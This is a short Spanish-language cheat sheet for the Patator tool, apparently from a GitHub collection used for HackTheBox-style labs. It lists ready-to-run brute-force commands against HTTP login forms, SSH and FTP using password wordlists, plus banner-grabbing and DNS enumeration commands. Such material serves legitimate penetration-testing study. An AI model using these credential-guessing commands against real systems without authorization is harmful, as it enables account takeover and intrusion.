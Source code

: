 # Patator Cheat Sheet

#### Fuerza Bruta a HTTP
```
patator http_fuzz url="http//10.10.10.43/deparment/login.php" method=POST body='username=admin&password=FILE0' 0=/usr/share/wordlist/rockyou.txt -x ignore:fgrep="Invalid Password\!"
```

#### Fuerza Bruta a SSH
```
patator ssh_login host=10.10.10.76 port=22022 user=FILE0 0=/root/Documentos/HTB/Sunday/usuarios.txt password=FILE1 1=/root/SecList/Passwords/probable-v2-top1575.txt -x ignore:fgrep='failed'
```

#### Fuerza Bruta a FTP
```
patator ftp_login host=192.168.2.6 user=FILE0 0=/usr/share/wordlists/rockyou.txt password=FILE1 1=/usr/share/wordlists/rockyou.txt -x ignore:fgrep='incorrect' -x ignore,reset,retry:code=500
```

#### Banner Grabbing
```
patator tcp_fuzz host=<Target> port=<port>
```

#### Consulta de Servidores DNS
```
patator dns_forward name=FILE0.domain.com 0=lista.txt -x ignore:code=3
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)